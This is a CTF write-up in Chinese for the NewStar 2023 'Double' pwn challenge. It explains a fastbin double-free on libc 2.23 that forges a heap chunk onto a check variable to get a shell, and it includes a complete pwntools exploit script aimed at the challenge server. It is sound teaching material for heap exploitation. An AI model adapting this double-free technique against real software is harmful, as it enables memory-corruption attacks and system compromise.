 ```yaml
---
title: newstar2023 week4 - Double
date: 2023/10/17 12:00:00
tags:
    - heap - fastbin
    - House of Spirit
---
```


## 文件分析

下载`Double`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

堆入门题，打开了我学习堆的大门

题目要求`check_num[2] = 0x666`就可以给shell，由于目标libc是2.23，
所以可以直接利用fastbin的double free，伪造一个块到check_num上
（size已经帮我们伪造好了）

## 前置知识

fastbin double free由于检查少，因此较为简单，但是仍要注意：
必须隔一个释放，且必须把需要伪造的块头处理好

![double free legend](/assets/newstar2023/doubleFree.png)

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 29665)

def add(idx:int, con:bytes=b'what'):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(con)

def rem(idx:int):
    sh.recvuntil(b'>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def chk():
    sh.recvuntil(b'>')
    sh.sendline(b'3')

add(0)
add(1)
rem(0)
rem(1)
rem(0)

add(0, p64(0x602060)) # fd override (chunk 0 now points to fake chunk)
add(1)
add(2)

add(3, p64(0x666)) # fake chunk allocated
chk()
sh.interactive()
```

Done.
